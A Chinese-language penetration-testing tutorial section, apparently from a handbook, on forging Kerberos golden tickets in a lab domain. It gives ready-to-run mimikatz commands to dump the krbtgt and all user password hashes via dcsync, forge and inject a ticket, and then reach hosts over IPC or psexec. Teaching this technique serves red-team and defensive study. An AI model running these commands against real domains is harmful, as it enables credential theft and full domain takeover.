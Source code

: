 # 5.1.2 黄金票据利用

> 原文：[https://www.zhihuifly.com/t/topic/3433](https://www.zhihuifly.com/t/topic/3433)

### 5.1.2 黄金票据利用

#### 1、导出 krbtgt 密码 hash

```
mimikatz#lsadump::dcsync /domain:adtest.com /user:krbtgt 
```

![image](img/d52c4a2c3ab24318f8ad382745a099ee.png)

导出所有域内用户密码 hash 值:

```
mimikatz#lsadump::dcsync /domain:adtest.com /all /csv 
```

![image](img/977bea729ffaa2aebb7a835ef2d1673c.png)

#### 2、获取域 SID

在导出 krbtgt 的 hash 的时候已经包含了域 SID，也可以用以下命令来查看域 SID

```
whoami /all 
```

![image](img/c5f84709587920cea1fb9f65a39399bd.png)

#### 3、伪造黄金票据

```
mimikatz.exe privilege::debug "kerberos::golden /domain:adtest.com /sid:S-1-5-21- 3418659180-3421952656-1938706522 /target:WIN-9P499QKTLDO.ADTEST.COM /service:cifs /rc4: 6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt" 
```

这里可以不指定 target 和 service

```
kerberos::golden /domain:adtest.com /sid:S-1-5-21-3418659180-3421952656-
1938706522 /rc4:6f0fdf50f2dcee2fed8e2e3eae7e1592 /user:aaa /ptt 
```

![image](img/babb7a55c996631163013123f0fc3929.png)

使用 klist 查看本地缓存的票据

![image](img/cab325d5100703c6ae80ea52fa1322dd.png)

获得票据后可直接通过 dir 远程访问主机，可以直接使用 ipc 进行连接:

![image](img/1ce70ff399125655bc6b457ba678516e.png)

当然也可以使用 psexec 去获得一个 cmdshell:

![image](img/a8aa83b588eef93b5ce037cae3faa33f.png)

> 注:普通黄金票据不能跨域使用;TGT 有效时间为 20 分钟;。